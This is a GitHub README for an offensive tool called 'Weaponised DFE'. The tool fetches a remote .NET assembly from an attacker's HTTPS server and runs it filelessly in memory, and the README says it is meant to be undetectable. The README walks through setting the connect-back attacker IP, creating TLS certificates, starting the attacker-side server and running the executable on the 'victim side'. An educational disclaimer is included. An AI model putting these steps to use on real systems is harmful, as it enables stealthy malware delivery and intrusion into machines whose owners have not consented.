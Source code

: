 # DotnetFilelessExecution

## Overview

Weaponised DFE is the advanced implementation of DotnetFilelessExecution. It can fetch a remote .NET Assembly, and execute it filelessly (in memory), i.e., without having to save it on the disk, all while being more secure, and undetectable than the previous DotnetFilelessExecution.

## Watch the DEMO

[![Watch the demo](https://img.youtube.com/vi/X9_8joF9UgA/maxdefault.jpg)](https://www.youtube.com/watch?v=X9_8joF9UgA)

## Compilation

I have used direct command-line compilation using the `dotnet` command, but of course you can use Visual Studio.

Btw, before compiling make sure to change the attacker ip address.

For me, here are the compilation steps ...
```cmd
cd Weaponised-DFE
dotnet add package Microsoft.CodeAnalysis.CSharp.Scripting
dotnet run
```
or

```cmd
cd Weaponised-DFE
dotnet add package Microsoft.CodeAnalysis.CSharp.Scripting
dotnet publish -c Release -r win-x64 --self-contained true -o out
```

## Usage

- Create openssl keys and certs, as under the auth directory.

```bash
mkdir auth
openssl req -new -x509 -newkey rsa:4096 -nodes -keyout auth/key.pem -out auth/cert.pem -days 10000
```

- Rename the listening host, port, and the name of the .NET Assembly you want to execute in the `https.py`.

- Rename the connect back attacker ip address in the `toExec.cs`.

- Rename the connect back attacker ip address in the `Program.cs` inside the `Weaponised-DFE` directory before compilation.

- Start the https server on the attacker side

```bash
python3 https.py
```

- Run Weaponised-DFE on victim side.

```cmd
dotnet run
```

or

```cmd
.\Weaponised-DFE.exe
```

## Note
For demonstration purposes, the connect back address is hard coded inside the program, which can be changed as needed.

## Disclaimer
This project is intended for educational and security testing purposes only. The author is not responsible for any misuse of this tool.

## Author
Developed by **Sayan Ray** [@BareBones90](https://x.com/BareBones90)

## License
This project is licensed under the MIT License - see the LICENSE file for details.
